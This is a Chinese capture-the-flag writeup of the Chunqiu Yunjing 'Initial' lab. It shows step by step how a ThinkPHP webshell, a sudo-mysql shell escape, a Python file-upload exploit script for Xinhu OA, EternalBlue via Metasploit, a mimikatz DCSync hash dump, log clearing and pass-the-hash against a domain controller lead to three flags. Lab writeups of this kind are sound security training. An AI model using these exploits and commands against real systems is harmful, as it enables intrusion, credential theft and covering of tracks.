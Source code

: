 +++
date = '2025-03-12T22:03:55+08:00'
title = '春秋云镜-Initial-Writeup'
categories = ["Writeup"]
tags = ["writeup", "渗透", "春秋云镜"]

+++



> 参考文章
>
> https://9anux.org/2024/08/01/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83Initial%E8%AF%A6%E8%A7%A3/

菜鸡第一个通关的靶场Orz



### FLAG1

![image-20250306184027336](../assets/image-20250306184027336.png)

fscan扫一下

```
./fscan.exe -h 39.99.139.119
```

![image-20250306184106697](../assets/image-20250306184106697.png)

直接用thinkphpgui写马连蚁剑

![image-20250306185409381](../assets/image-20250306185409381.png)

先用vshell上线

读flag需要提权

[peass-ng/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/peass-ng/PEASS-ng)

传个linpeas扫一下

```
./linpeas_linux_amd64 > output.txt
```

![image-20250306194842802](../assets/image-20250306194842802.png)

在历史文件中找到疑似读flag的命令

其实这就是一个简单的sudo提权

[渗透测试：Linux提权精讲（三）之sudo方法第三期_nmap sudo 提权-CSDN博客](https://blog.csdn.net/Bossfrank/article/details/132035121)

![image-20250307122848818](../assets/image-20250307122848818.png)

mysql 是配置了 sudo 免密使用的，可以使用 mysql 提权，通过mysql执行命令来读flag

payload:

```
sudo mysql -e '\! /bin/sh'
cat /root/flag/flag*
```

![image-20250306195324340](../assets/image-20250306195324340.png)

```
flag01: flag{60b53231-
```





接下来搭代理

![image-20250306195729122](../assets/image-20250306195729122.png)

查内网ip

![image-20250306201310152](../assets/image-20250306201310152.png)



接着传一个fscan扫一下内网

```
fs -h 172.22.1.0/24 -nobr -nopoc -hn 172.22.1.15
```

![image-20250306211420165](../assets/image-20250306211420165.png)

收集到的信息

```
172.22.1.2:DC域控
172.22.1.21:Windows的机器并且存在MS17-010 漏洞
172.22.1.18:信呼OA办公系统
```



### FLAG2

先看信呼

![image-20250306201640184](../assets/image-20250306201640184.png)

弱口令成功登入admin/admin123

信呼协同办公系统v2.2.8存在文件上传漏洞

[Awesome-POC/OA产品漏洞/信呼OA qcloudCosAction.php 任意文件上传漏洞.md at master · Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/OA产品漏洞/信呼OA qcloudCosAction.php 任意文件上传漏洞.md)

```php
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
# url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=<ID>'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''    
}

r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
print(filepath)
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

写马之后直接读flag就行

![image-20250306205702520](../assets/image-20250306205702520.png)

```
flag02: 2ce3-4813-87d4-
```







### FLAG3

永恒之蓝可以用msf打

现在kali上用proxychains4简单配个代理

```
proxychains4 msfconsole
search ms17-010
```

有四个不同的模块

![image-20250306221317959](../assets/image-20250306221317959.png)

这里使用第一个模块，因为利用范围比较广

```
use exploit/windows/smb/ms17_010_eternalblue  # 选择使用的模块
set payload windows/x64/meterpreter/bind_tcp_uuid  # 设置payload，可以通过show payloads查看
set RHOSTS 172.22.1.21  # 设置靶机的ip
exploit  # 发起攻击
```

![image-20250306222652987](../assets/image-20250306222652987.png)

成功了

```
meterpreter > screenshot # 捕获屏幕
meterpreter > upload hello.txt c:// #上传文件
meterpreter > download d://1.txt # 下载文件
meterpreter > shell # 获取cmd
meterpreter > clearev # 清除日志
```

![image-20250306222939898](../assets/image-20250306222939898.png)



```
load kiwi  # 调用mimikatz模块
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit  # 导出域内所有用户的信息(包括哈希值)
```

![image-20250306223200316](../assets/image-20250306223200316.png)

拿到`Administrator` 用户的 `hash`，接着使用 `crackmapexec` 来进行哈希传递攻击，来实现 `DC域控` 上的任意命令执行

```
proxychains4 crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

![image-20250306223612158](../assets/image-20250306223612158.png)

拿到最后一个flag